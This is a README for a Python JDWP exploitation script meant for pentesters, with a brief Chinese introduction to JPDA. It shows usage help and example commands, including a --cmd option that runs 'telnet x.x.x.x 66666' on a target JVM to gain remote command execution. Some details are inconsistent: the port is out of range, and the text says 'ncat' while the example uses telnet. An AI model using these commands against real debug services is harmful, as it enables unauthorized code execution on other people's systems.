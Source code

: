 
简要描述：
JPDA(Java Platform Debugger Architecture) 是 Java 平台调试体系结构的缩写，通过 JPDA 提供的 API，开发人员可以方便灵活的搭建 Java 调试应用程序。JPDA 主要由三个部分组成：Java虚拟机工具接口（JVMTI），Java 调试线协议（JDWP），以及 Java 调试接口（JDI）

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.


## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python jdwp.py -h
	usage: jdwp.py [-h] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by 老夫开车怕过谁
    optional arguments:
    -h, --help            show this help message and exit
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
    Specify full path to method to break on (default:
    	java.net.ServerSocket.accept)
    	--cmd COMMAND         Specify full path to method to break on (default:
    		None)

To target a specific host/port:

	$ python jdwp.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python jdwp.py -t 100.100.100.100 -p 8001 --cmd "telnet x.x.x.x 66666"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 







